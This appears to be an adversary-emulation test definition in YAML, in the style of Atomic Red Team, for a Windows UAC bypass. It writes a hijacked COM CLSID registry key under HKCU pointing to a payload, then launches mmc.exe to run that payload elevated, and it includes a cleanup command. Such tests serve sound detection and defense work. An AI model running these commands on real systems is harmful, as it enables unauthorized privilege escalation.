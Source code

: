 - name: UAC Bypass via MMC CLSID Hijack
  auto_generated_guid: 2c413a63-df90-4fd4-b91f-487db68e1905
  description: |
    Hijacks a COM CLSID object under HKCU to gain elevated execution via mmc.exe.
  supported_platforms:
    - windows
  input_arguments:
    payload_path:
      description: Path to the payload executable to run as elevated.
      type: path
      default: C:\Windows\System32\notepad.exe
  executor:
    command: |
      reg add "HKCU\Software\Classes\CLSID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}\LocalServer32" /d "#{payload_path}" /f
      timeout /t 3
      mmc.exe
    cleanup_command: |
      reg delete "HKCU\Software\Classes\CLSID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}" /f
    name: command_prompt
